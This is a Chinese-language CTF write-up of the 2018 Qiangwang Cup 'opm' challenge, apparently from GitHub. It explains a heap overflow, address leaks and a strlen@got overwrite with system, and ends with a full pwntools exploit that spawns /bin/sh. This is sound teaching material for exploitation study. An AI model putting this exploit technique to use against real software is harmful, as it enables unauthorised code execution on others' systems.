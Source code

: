 # 强网杯 2018 opm
前言
程序运行
程序分析
漏洞分析
过程
### 前言
> &nbsp;&nbsp;&nbsp;&nbsp;这篇`WP`是强网杯过去了很久之后才出的, 参考的是[极目楚天舒](https://blog.csdn.net/weixin_40850881/article/details/80058283)师傅的博客, 这位师傅是一位`CTF老赛手`, 最近复出.由于图片中不能`CTRL+F`出文字, 本文章尽量避免使用图片, 除非必要.

### 程序运行
*1. menu*
```
You were invited to beat one punch man!
(A)dd a new role
(S)how all roles
(E)xit

```
*2. Add*
```
A
Your name:
Bill
N punch?
128
<Bill> said he can kill the boss with 80 punches
```
*3. Show*
```
<Bill> said he can kill the boss with 80 punches
You were invited to beat one punch man!
```
*4. Exit*
```
E(退出)
```
### 程序分析
*0.结构体*
```c
struct node{
    char (*print)(struct node n) ; //函数指针
    char* name;
    int name_number;
    int punch;
};
```
*2. 分析*
> &nbsp;&nbsp;&nbsp;&nbsp;这道题没有用到什么高深的堆分配和释放的知识, 就一个词**溢出**. `IDA F5`之后, 发现`Add`过程存在一个溢出漏洞, `s`的下一个位置就是与`node`结构体相关的地址.

![result01](./01.png)

*3. 总体思路*
> &nbsp;&nbsp;&nbsp;&nbsp;泄露堆地址, 泄露`got`地址, 泄露`strlen`真实地址, 修改`got表`中`strlen`项内容为`system`, 发送`/bin/sh\x00`.

### 过程
*1. leak heap*
```python
add("A"*0x70, 9)
add("B"*0x80 + "\xf0", 9) #修改
'''
0x7ffff7fcd700:	0x0000000000000000	        0x0000000000000000
0x7ffff7fcd710:	0x000055c56a558cd0(正确地址)
修改之后
0x7ffff7fcd700:	0x4242424242424242	　　　　　0x4242424242424242
0x7ffff7fcd710:	0x000055c56a5500f0(一块可写区域)
...... 程序将一些信息写入此处
0x55c56a5500f0:	0x0000000000000000	0x000055c56a558d00 <--
0x55c56a550100:	0x0000000000000081	0x0000000000000009   |
'''                                                      |
add("C"*0x80, "D"*0x80 + "\xf0") #leak                   |
'''                                                      |
修改                                                      |
0x7ffff7fcd700:	0x4343434343434343	0x4343434343434343   |
0x7ffff7fcd710:	0x000055c56a558d00 --> 'C'*0x80造成       |
                                                         |
程序将新malloc的地址写入0x55c56a558d00                       |
0x55c56a558d00:	0x4242424242424242	0x000055c56a558dc0    |
0x55c56a558d10:	0x0000000000000080	0x4242424242424242    |
                                                          |
打印("D"*0x80 + "\xf0"), 此时的0x55c56a5500f0还是    --------

'''
```
**结论:** 泄露地址无非就是将地址放入可输入的部分, 然后执行输出函数.

*2. leak function*
```python
add("d" *0x18 + p64(heap + 0x90), '131425' + "F"*0x7a + p64(heap + 0xd0))
'''
"d" *0x18 + p64(heap + 0x90) 如下效果
0x7ffff7fcd690:	0x6464646464646464	0x6464646464646464
0x7ffff7fcd6a0:	0x6464646464646464	0x000055c56a558e50 ---
......                                                   |-----> 二者必须相同
0x7ffff7fcd700:	0x4444444444444444	0x4444444444444444   |
0x7ffff7fcd710:	0x000055c56a558e50	----------------------

'''
#'131425' + "F"*0x7a + p64(heap + 0xd0) 如下效果
```
![result02](./02.png)

**结论:** `131425`是为了防止`top chunk`被赋值为0.
*3. leak strlen address*
```python
add("d"*0x18 + p64(strlen_got), "131329" + "F"*0x7a + p64(heap + 0x130))
```
*小结:* 理解了上一步`leak function`, 这一步原理同上.

*4. modify strlen@got*
```python
add("Bill", str(system_addr & 0xffffffff).ljust(0x80, "G") + p64(strlen_got-0x18))
```
*小结:* 看似程序中没有写入功能, 实际上是存在写入的功能的. 就是`punch`大小的读入, 我们可以写入`system`真实地址的后四个字节,前几个字节都一样, 而且我们也只能写入四个字节.

![result03](./03.png)

### The Whole EXP
```python
from pwn import *

p = process("./opm")
elf = ELF("./opm")
libc = ELF("./opm")

context.log_level = 'debug'

def add(name, number):
    p.recvuntil("(E)xit\n")
    p.sendline("A")
    p.recvuntil("Your name:\n")
    p.sendline(name)
    p.recvuntil("N punch?\n")
    p.sendline(str(number))

def show():
    p.recvuntil("(E)xit\n")
    p.sendline("S")

def quit():
    p.recvuntil("(E)xit\n")
    p.sendline("E")

#part one: leak heap
add("A"*0x70, 9)
gdb.attach(p)
add("B"*0x80 + "\xf0", 9)
add("C"*0x80, "D"*0x80 + "\xf0")
heap = u64(p.recv(15)[9:].ljust(8, "\x00"))
log.info("heap: %s" % hex(heap))

#part two: leak function ptr
add("d" *0x18 + p64(heap + 0x90), '131425' + "F"*0x7a + p64(heap + 0xd0))
func_ptr = u64(p.recv(7)[1:].ljust(8, "\x00"))
log.info("function_ptr: %s" % hex(func_ptr))

#part three: leak strlen real address
base = func_ptr - 0xb30
strlen_got = base + elf.got['strlen']
gdb.attach(p)
add("d"*0x18 + p64(strlen_got), "131329" + "F"*0x7a + p64(heap + 0x130))
strlen = u64(p.recv(7)[1:].ljust(8, "\x00"))
log.info("real strlen: %s" % hex(strlen))

#part four: modify strlen got
system_addr = strlen - 0x46390
log.info("system: %s" % hex(system_addr))
gdb.attach(p)
add("Bill", str(system_addr & 0xffffffff).ljust(0x80, "G") + p64(strlen_got-0x18))
add("/bin/sh\x00", 8)
p.interactive()
```
### Related Link
[极目楚天舒](https://blog.csdn.net/weixin_40850881/article/details/80058283)
[文件下载](https://github.com/BBS-Bill-Gates/CTF/tree/master/2018/ichunqiu/opm/opm)
